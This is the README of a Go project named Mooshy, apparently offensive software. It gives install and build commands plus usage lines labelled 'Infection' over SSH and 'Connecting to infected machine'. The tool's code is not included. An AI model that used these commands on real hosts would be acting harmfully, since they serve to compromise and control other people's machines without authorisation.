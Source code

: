 [![Build Status](https://travis-ci.com/rvolosatovs/mooshy.svg?token=Rr1zHeZEE84zs4P7sgSv&branch=master)](https://travis-ci.com/rvolosatovs/mooshy)

# Mooshy

[![asciicast](https://asciinema.org/a/zK5uZERZHIAw1TsNng2o8eDqX.png)](https://asciinema.org/a/zK5uZERZHIAw1TsNng2o8eDqX)

Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
```

Development:
```sh
    make deps # only first time
    make
```

Infection:
```sh
    mooshy -ssh -addr <host>
```

Connecting to infected machine:
```sh
    mooshy -addr <host>
```
